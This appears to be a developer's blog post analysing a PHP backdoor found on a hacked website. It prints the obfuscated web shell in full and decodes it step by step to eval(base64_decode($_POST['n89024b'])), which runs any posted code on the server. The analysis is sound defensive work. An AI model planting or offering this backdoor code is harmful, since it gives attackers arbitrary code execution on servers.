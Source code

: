 ```yaml
---
title: Anatomy of a PHP Hack
date: 2017-11-07
tags:
- php
- security
---
```

It's hard to come up with a title for this - but - basically I found some rogue code the other day that I thought was pretty interesting. I was fixing a "hacked" website when I came across the source of the symptoms of the hack.  One file had the following code in it:

<!--more-->

```php
$zgjv56 = "o_esb4da6ctp" ; 
$fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
$gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ; 
if( isset( ${ $gfc4 }['n89024b' ] )){
    eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;
}
```

This obfuscated code is doing something bad, but we don't know what at first glance.  Obviously, the solution is to remove it - but - aren't you a little curious what it was doing?  Let's take a look.

First, the `$zgjv56` variable has unique letters and numbers and an underscore.  It looks like `$fzba02` is created by picking out various offsets (remember, you can access a character of a PHP string in the same manner as you might query an array index).   It's weird that it's calling `strtolower()` though - because all the values are lower.  So, let's figure out what the value of `$fzba02` actually is.

> Important note: When you're testing PHP code that you're unsure of, run it in a sandboxed virtual machine that has no access to the internet or your local device.

```
php > $zgjv56 = "o_esb4da6ctp";
php > $fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
php > echo $fzba02;
base64_decode
```

Ah - so the variable is the value `base64_decode` - nice.  

> Why random variable names and why `base64_decode`? The random variable names make it harder to understand what the code is doing. It's like the difference between using `$counter` and `$c` - one is more obvious than the other.  The base 64 encoding is done most likely for a weak obfuscation attempt again.

The next line creates another variable based off of our initial string - let's check it out:

```
php > $gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ;
php > echo $gfc4;
_POST
```

So, this variable is targeting the magic/global PHP variable `$_POST` - ok - I'm starting to get a picture of what we may figure out next.  There is something that will be base 64 encoded and posted to this script.

This PHP line gives us the indicator of what wakes up the script:

```php
if( isset( ${ $gfc4 }['n89024b' ] )){

// translates to:
if (isset($_POST['n89024b'])) {
```

Again, a random variable/string in `n89024b` - but this says - if there is a post request to this page using the variable `n89024b` - we should do something.  That variable name is very likely not to be picked by the main application - so it's safe for this script to accept/intercept those values and do it's task.

```php
eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;

// translates to
eval(base64_decode($_POST['n89024b']));
```

Whenever you see `eval()` you should be afraid - but what is this really doing?  Its basically taking anything that is posted in a base 64 encoding with a specific variable and executing it directly in the context of this script.  This obfuscated script indicates that the user of this basically had free reign to run anything on the server at any time.  The easy fix is removing this code - the hard part is figuring out what / if they used this for other nefarious purposes on your server.
